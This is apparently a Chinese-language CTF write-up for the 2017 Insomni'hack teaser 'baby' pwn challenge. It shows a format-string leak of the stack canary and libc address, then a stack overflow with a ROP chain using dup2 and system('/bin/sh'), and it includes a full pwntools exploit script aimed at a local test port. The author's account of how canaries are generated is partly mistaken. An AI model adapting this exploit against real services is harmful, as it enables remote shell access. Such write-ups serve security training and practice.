 ```yaml
---
title: 2017Insomni’hack teaser Pwn baby writeup
tags: [PWN, writeup]
categories: []
date: 2017-02-01 00:50:36
---
```


2017的第一场比赛，看了看，只会做一道forencis，pwn的baby还是很简单的，然而由于对canary的认识不足，导致如此简单的一道题目也不会。后面的pwn就没看了。

## baby 50

有三个漏洞选项，stack overflow、fsb、heap overflow，checksec看下

```
pwndbg> checksec 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/ubuntu/ctf-problem/2017ins/pwn/baby/baby
```

WTF???居然保护全开了，这是最坑爹的了，当时看到canary我就不知道栈溢出该怎么用了，后来才知道**canary是全局变量，每个进程中栈的canary是一样的，在进程运行时，先生成一个16byte的canary，然后随机从中选8byte填充，并且在后以'\00'结尾截断，不泄露栈地址**

dprintf函数原型`int dprintf(int fd, char* format[, ...])`，和printf很像，我理解就是加了一个重定向的printf，一样有fsb漏洞。

这题的思路，fsb泄露canary，libc，构造rop chain，stack overflow执行system('/bin/sh')

现在的问题时，我们的canary在栈上的第几个参数？libc应该泄露哪个参数。

看了wp，发现分别时%138$llx、%158$llx。似乎大家都知道这个事。。。

然后libc泄露的是`__libc_start_main+0xf0`的地址，所以得到的地址减`0xf0-__libc_start_main`

64位的参数传递rdi, rsi, rdx, rcx, r8, r9。注意下`dup2()`这个函数，这个函数用来重定向，原型`int dup2(int odlfd, int newfd)`。

> dup2和dup函数一样，只是返回的文件描述符可以通过第二个参数”可用的文件描述符“指定。如果“可用的文件描述符“是打开状态，则会被关闭；如果”现存的文件描述符“和”可用的文件描述符“一样，则不会关闭.

但是我这里还是有个地方不明白，在这里dup2()的oldfd参数为什么是4和0、1、2；0、1、2分别表示标准输入、标准输出、标准错误输出，然后每打开一个新文件返回没有被使用的fd的最小值。这里打开了标准输入输出，至于为什么是4我还没搞懂= =

exp:

```
from pwn import *

# rdi, rsi, rdx, rcx, r8, r9
# int dup2(int odlfd, int newfd)

context.log_level = 'debug'

def dofmt(payload):
	p.recvuntil('Your choice > ')
	p.sendline('2')
	p.recvuntil('Your format > ')
	p.sendline(payload)
	return p.recvline()

def dostack():
    p.send('\n')
    p.recvuntil('Your choice > ')
    p.sendline('1')
    p.recvuntil('send ? ')

def leak_libc():
    payload = ''
    payload += '%138$llx_%158$llx'
    array = dofmt(payload).split('_')
    return int(array[0], 16), int(array[1], 16)

def bof_stack():
	dostack()
	# buf = 0x410 = 1040
	payload = 'a' * 0x408
	payload += p64(canary) + p64(1) + p64(pdr) + p64(4) + p64(psr) + p64(0) + p64(dup2)
	payload += p64(pdr) + p64(4) + p64(psr) + p64(1) + p64(dup2)
	payload += p64(pdr) + p64(4) + p64(psr) + p64(2) + p64(dup2)
	payload += p64(pdr) + p64(binsh) + p64(system)
	payload_length = len(payload) + 1
	p.sendline(str(payload_length))
	p.sendline(payload)
	log.info(p.recvline())
	p.interactive()

if __name__ == '__main__':
    pdr = 0x21102 # pop rdi; ret;
    psr = 0x202e8 # pop rsi; ret;

    p = remote('127.0.0.1', 1337)
    libc = ELF('libc.so')
    canary, libc_addr = leak_libc()
    libc_base = libc_addr - 0x20830
    libc.address = libc_base
    pdr = libc_base + pdr
    psr = libc_base + psr
    system = libc.symbols['system']
    dup2 = libc.symbols['dup2']
    binsh = libc.search('/bin/sh').next()
    bof_stack()

```
